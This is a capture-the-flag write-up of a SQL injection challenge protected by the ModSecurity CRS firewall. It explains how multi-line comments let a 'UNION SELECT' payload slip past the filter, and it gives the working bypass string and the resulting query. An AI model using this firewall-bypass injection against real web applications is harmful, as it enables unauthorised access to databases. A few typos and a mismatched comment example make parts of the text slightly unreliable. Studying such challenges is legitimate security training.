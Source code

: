 ```yaml
---
custom_edit_url: null
sidebar_position: 36
tags: [SQLi, Multi-line comment, MOD Security CRS, WAF bypass]
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/a0890124-fcbf-4ebc-a6fd-dc8011043f59)

We are provided with the SQL query:

```sql
SELECT id,pw FROM prob_cyclops WHERE id='{$_GET[id]}' AND pw='{$_GET[pw]}'
```

In this challenge as well, the Mod Security CRS is being used.
For this challenge, we have to use the `UNON SELECT` statement.

Let's try that by providing the following URI parameter:

```
?id=UNION SELECT
```

The resultant query becomes:

```sql
SELECT id,pw FROM prob_cyclops WHERE id='' UNION SELECT '' AND pw=''
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/79303dfd-43e3-4524-af78-e1019ef5e2a2)

As we can see, the input gets blocked.
In order to get around this we have to use multi-line comments.

&nbsp;

## Multi-line comments

In SQL, multi-line comments are effective while commenting out large groups of text.

```sql
SELECT * FROM table
/*
SELECT * FROM table
SELECT * FROM table
/*
```

We can utilize this to introduce space between the `UNION` and `SELECT` words as such:

```sql
UNION
/*
*/
SELECT
```

&nbsp;

In order to get around the MOD Security filter, we can use the previously used bypass and modify it to our needs. We need to select the `first` and `second` columns in order to solve this challenge.

If we provide the following URI parameter:

```
?id=-1'<@=1 UNION/**/SELECT 'first','second' -- -
```

The resultant query becomes:

```sql
SELECT id,pw FROM prob_cyclops WHERE id='-1'<@=1 UNION
/*
*/
SELECT 'first','second' -- -' AND pw=''
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/ff3d51a5-66d4-408b-a2b1-923d945dc379)
